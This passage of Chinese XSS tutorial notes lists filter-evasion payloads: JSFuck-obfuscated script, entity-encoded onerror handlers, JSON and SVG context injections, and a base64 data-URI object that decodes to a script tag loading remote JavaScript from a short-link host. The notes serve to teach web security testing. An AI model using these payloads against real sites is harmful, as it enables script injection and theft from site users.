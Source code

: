        4. jsfuck版本

          ```html
          <script>alert((+[][+[]]+[])[++[[]][+[]]]+([![]]+[])[++[++[[]][+[]]][+[]]]+([!![]]+[])[++[++[++[[]][+[]]][+[]]][+[]]]+([!![]]+[])[++[[]][+[]]]+([!![]]+[])[+[]])</script>
          ```

       5. HTML编码：

           ```html
              <img src='1' onerror='aler&#x0074;(1)'>
           ```

       6. base64编码（仅data支持）

            ```html
               <object data="data:text/html;base64,PHNjcmlwdCBzcmM9aHR0cDovL3QuY24vUnE5bjZ6dT48L3NjcmlwdD4="></object>
               格式：
               Data:<mime type>,<encoded data>
               Data //协议
               <mime type> //数据类型
               charset=<charset>  //指定编码
               [;base64] //被指定的编码
               <encoded data> //定义data协议的编码
               特点：不支持IE
            ```

- 存在json数据解析 context： `<?=json_encode($_GET['x'])?>` payload： `?x=<img+src=x+onerror=ö-alert(1)>`

- SVG 标签

  当返回结果在 svg 标签中的时候，会有一个特性 `<svg><script>varmyvar="YourInput";</script></svg>` YourInput 可控，输入 `www.site.com/test.php?var=text";alert(1)//` 如果把 " 编码一些他仍然能够执行: `<svg><script>varmyvar="text&quot;;alert(1)//";</script></svg>`

  ​

  ​


---

## 0x03 

## 0x04 其它知识

### 浏览器解析规则

**URL编码：**

一个百分号和该字符的ASCII编码所对应的2位十六进制数字，例如“/”的URL编码为%2F(一般大写，但不强求)

**HTML实体编码：**

